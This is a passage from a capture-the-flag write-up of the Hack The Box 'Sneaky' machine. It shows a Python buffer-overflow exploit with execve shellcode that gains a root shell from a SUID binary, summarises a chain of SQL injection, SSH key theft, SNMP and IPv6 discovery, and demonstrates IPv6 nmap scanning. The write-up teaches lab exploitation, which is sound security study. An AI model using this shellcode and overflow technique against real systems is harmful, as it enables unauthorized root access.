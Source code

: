 We can see the `0x90` stop and start again in the `ESP` register. We'll try address `0xbffff75c` now.

```bash
thrasivoulos@Sneaky:/tmp$ nano exploit.py
BUFFER_SIZE=362
SHELL_CODE = "\x31\xc0\x50\x68\x2f\x2f\x73"
SHELL_CODE += "\x68\x68\x2f\x62\x69\x6e\x89"
SHELL_CODE += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
SHELL_CODE += "\xcd\x80\x31\xc0\x40\xcd\x80"
NOP_SLED = "\x90"*(BUFFER_SIZE-len(SHELL_CODE))
#EIP = "\x00\xf5\xff\xbf" #0xbffff500
EIP = "\x5c\xf7\xff\xbf" #0xbffff75c
PAYLOAD = NOP_SLED + SHELL_CODE + EIP
print PAYLOAD
thrasivoulos@Sneaky:/tmp$ /usr/local/bin/chal $(python exploit.py)
# id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(thrasivoulos)
# cat /root/root.txt
c5153d86************************
```

## TL;DR

- Find `/dev` on the webserver
- SQL injection to login
- Download SSH key
- Use SNMP to find IPv6 address which has SSH port open
- Buffer overflow SUID application to get root shell

## Bonus

### IPv6 NMAP scan

```bash
luc@kali:~/HTB/Sneaky$ nmap -sV dead:beef:0000:0000:0250:56ff:feb9:cba4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 14:52 CEST
dead:beef::250:56ff:feb9:5e2d looks like an IPv6 target specification -- you have to use the -6 option.
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.18 seconds
luc@kali:~/HTB/Sneaky$ nmap -6 -sV dead:beef:0000:0000:0250:56ff:feb9:cba4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 14:51 CEST
Nmap scan report for dead:beef:0000:0000:0250:56ff:feb9:cba4
Host is up (0.013s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
```

With the `-6` parameter we can use `NMAP` in IPv6 mode. We can see that port 22 which we used for SSH is open, but 80 is also open here. Browsing to `http://[dead:beef:0000:0000:0250:56ff:feb9:cba4]/` gives us the same webpage we got via IPv4 earlier.
